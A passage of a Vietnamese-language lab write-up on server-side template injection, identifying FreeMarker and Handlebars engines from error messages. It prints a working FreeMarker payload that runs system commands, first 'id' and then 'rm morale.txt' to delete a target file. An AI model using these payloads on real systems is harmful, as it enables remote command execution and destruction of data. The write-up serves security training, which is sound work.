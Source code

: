 ![image](https://hackmd.io/_uploads/SJYCeIzhA.png)

Khi ta thử payload `${7*7}` có thể đoán nó sử dụng ERB engine

![image](https://hackmd.io/_uploads/SJ5NZ8z2R.png)

Tuy nhiên khi sử dụng payload của loại engine này nó trả về lỗi của **Freemaker**. Lý do là các loại lỗ hổng SSTI của các engine có thể giống nhau

![image](https://hackmd.io/_uploads/rJ0FfUGhA.png)

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

![image](https://hackmd.io/_uploads/B1LFX8G3C.png)

Gửi payload cuối cùng và hoàn thành bài lab
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}
```

## Flag:

![image](https://hackmd.io/_uploads/BkWF6IM3A.png)

# Server-side template injection in an unknown language with a documented exploit
## Target Goal:
This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## Analysis:
Khi bấm vào `View detail` ta sẽ thấy một sản phẩm trả về message "Unfortunately this product is out of stock"

![image](https://hackmd.io/_uploads/HysNjNM3A.png)

Khi dùng payload `{{7/0}}` nó trả về lỗi như bên dưới và ta biết được nó dùng **Handlebars** (NodeJS) template

![image](https://hackmd.io/_uploads/rkhshUG2A.png)

Sử dụng payload ở dưới và sửa lại thành `rm morale.txt` ta sẽ hoàn thành bài lab

![image](https://hackmd.io/_uploads/S10-p8fhA.png)

## Flag:
![image](https://hackmd.io/_uploads/SkNI28Mh0.png)
